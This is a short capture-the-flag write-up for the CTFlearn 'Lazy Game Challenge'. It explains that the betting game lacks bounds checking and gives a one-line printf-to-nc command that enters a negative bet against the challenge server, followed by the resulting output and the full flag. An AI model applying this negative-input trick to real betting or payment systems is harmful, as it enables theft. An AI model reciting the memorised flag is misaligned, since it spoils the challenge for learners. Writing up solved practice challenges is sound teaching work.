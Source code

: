 # Lazy Game Challenge
## Description
I found an interesting game made by some guy named "John_123". It is some betting game. I made some small fixes to the game; see if you can still pwn this and steal $1000000 from me!

To get flag, pwn the server at: `nc thekidofarcrania.com 10001`
## Hints
(None)
## Solution
1. The game doesn't do proper bounds checking. Bet `-10000000` and keep entering `0` for your guesses.
```console
% printf "y\n-1000000\n0\n0\n0\n0\n0\n0\n0\n0\n0\n0\n" | nc thekidofarcrania.com 10001
Sorry you didn't made it !
Play Again !...
Better Luck next Time !.
Sorry you lost some money !..
Your balance has been updated !.
Current balance :  : 
1000500$
What the... how did you get that money (even when I tried to stop you)!? I guess you beat me!

The flag is CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}

Thank you for playing ! 
Made by John_123
Small mods by theKidOfArcrania
Give it a (+1) if you like !..
```

